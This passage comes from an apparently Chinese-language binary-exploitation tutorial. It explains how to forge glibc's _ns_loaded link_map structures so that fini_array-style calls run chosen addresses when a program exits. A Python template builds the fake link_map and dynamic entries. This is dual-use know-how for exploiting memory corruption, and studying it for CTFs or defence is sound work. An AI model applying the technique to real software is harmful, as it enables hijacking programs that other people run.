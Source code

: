 ### 4. 覆盖`_ns_loaded`和`_ns_nloaded`

再往上一层，直接伪造整个`_ns_loaded`结构体，要伪造的内容就比较多了，**除非能够申请到0x350以上大小的内存，否则不能用**。

如果能覆盖`_ns_loadedn == 1`，伪造内容稍微简单一些：

```python
fake_array = p64(target1) + p64(target2) + ... + p64(targetn)

fake_dyn = p64(26) + p64(fake_array_addr)
fake_dyn += p64(28) + p64(8*n)

fake_map = b'\x00'*0x28 # l_addr = 0; l_next = 0
fake_map += p64(fake_map_addr) # l_real = fake_map_addr
fake_map = fake_map.ljust(0x40, b'\x00')
fake_map += p64(0)*26 + p64(fake_dyn) # l_info[26] = fake_dyn1_addr
fake_map += p64(0) + p64(fake_dyn+0x10) # l_info[28] = fake_dyn2_addr
fake_map = fake_map.ljust(0x354, b'\x00')
fake_map += p32(0x8) # l_init_called = 1
```

如果不能覆盖`_ns_loadedn == 1`，则**覆盖倒数第2个`l_next`**为我们伪造的`_ns_loaded`结构体，伪造内容同上。



### 关于为什么不能直接覆盖`Elf64_Dyn`或`fini_array`

`_ns_loaded->l_info[DT_FINI/DT_FINI_ARRAY/DT_FINI_ARRAYSZ]`指向的`Elf64_Dyn`一般都在程序或库自身的地址映射范围内，在ELF文件中虽然`Elf64_Dyn`所在段和`.fini_array`段都是可读写权限：

> IDA和`readelf -S`都可以看
